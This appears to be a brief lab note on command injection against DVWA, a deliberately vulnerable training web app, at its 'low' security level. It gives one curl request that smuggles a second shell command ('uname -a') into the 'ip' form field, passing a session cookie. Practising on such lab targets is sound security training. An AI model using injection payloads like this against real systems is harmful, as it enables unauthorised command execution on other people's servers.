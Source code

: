 ## Target

    https://github.com/ethicalhack3r/DVWA
    
    DVWA Security Level: low

### Command Injection: http://192.168.56.101/DVWA/vulnerabilities/exec/index.php

    curl -s -b 'PHPSESSID=5hq3gpbfl0i22r2trqlommvv20;security=low' -d 'ip=;uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux
